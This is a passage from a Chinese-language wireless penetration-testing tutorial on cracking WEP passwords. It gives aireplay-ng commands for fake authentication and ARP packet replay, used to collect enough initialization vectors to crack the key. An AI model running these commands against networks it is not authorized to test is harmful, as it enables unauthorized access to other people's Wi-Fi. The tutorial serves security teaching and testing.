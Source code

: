 以下屏幕截图显示了前面命令的输出：

![](img/728e79cd-1cb3-4407-bfd9-5d5bf20806bc.png)

6.  现在我们需要观察信标和数据列；这些数字从`0`开始，并随着数据包在路由器和其他设备之间的传递而增加。我们需要至少 20000 个初始化向量才能成功破解**有线等效隐私**（**WEP**密码）：
7.  为了加快进程，我们打开另一个终端窗口并运行`aireplay-ng`并使用以下命令执行假身份验证：

```
 aireplay-ng -1 0 -e <AP ESSID> -a <AP MAC> -h <OUR MAC> wlan0mon 
       {fake authentication}
```

以下屏幕截图显示了上述命令的示例：

![](img/6d610a66-b5fb-4a61-8029-48b325d8517e.png)

8.  现在，让我们使用以下命令执行 ARP 数据包重播：

```
 aireplay-ng -3 -b BSSID wlan0mon
```

以下屏幕截图显示了上述命令的示例：

![](img/89ef9aa4-2a73-40af-91da-e77be873bada.png)

